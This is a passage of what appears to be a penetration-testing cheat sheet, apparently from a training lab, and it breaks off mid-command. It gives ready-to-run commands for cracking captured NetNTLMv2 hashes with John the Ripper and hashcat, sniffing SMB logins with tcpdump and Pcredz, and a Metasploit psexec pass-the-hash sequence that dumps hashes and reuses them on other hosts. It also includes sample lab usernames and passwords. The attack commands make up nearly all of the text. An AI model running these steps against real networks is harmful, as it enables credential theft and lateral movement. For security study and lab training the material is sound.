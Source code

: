### use JtR
* linux
    * specify the hash-type and cracked NetNTLMv2
    ```
    john --format=netntlmv2 /opt/responder/logs/SMB-NTLMv2-SSP-*
    john --show /opt/responder/logs/SMB-NTLMv2-SSP-*.txt
    ```

## Sniffing
### Launch the tcpdump
* linux
    * launch the tcpdump(one window)
    ```
    sudo tcpdump -nv -w /tmp/winauth.pcap port 445
    ```
    * invoke smbclient (another window)
    ```
    smbclient //YOUR_WINDOWS_IP_ADDRESS/c$ -U clark Qwerty12    
    ```
### Extract Hash
* linux
    * extract hashs
    ```
    sudo Pcredz -vf /tmp/winauth.pcap
    ```
    * crack
    ```
    ls /opt/pcredz/logs/
    cat /opt/pcredz/logs/NTLMv2.txt
    john /opt/pcredz/logs/NTLMv2.txt
    hashcat -w 3 -a 0 -m 5600 /opt/pcredz/logs/NTLMv2.txt /opt/passwords/rockyou.txt
    hashcat -m 5600 --show --outfile-format 2 /opt/pcredz/logs/NTLMv2.txt
    ```
<br>

# Pass the Hash
## Obtaining Hashes
### Metasploit
* linux
    * launch the msfconsole and choose psexec module
    ```
    msfconsole
    use exploit/windows/smb/psexec
    set smbuser bgreen
    set smbpass Password1
    set smbdomain hiboxy
    set rhosts 10.130.10.5
    set lhost tun0
    run
    ```
    * hashdump
    ```
    run post/windows/gather/hashdump
    ```
    * try to use that hash on other systems
    ```
    background
    set smbuser antivirus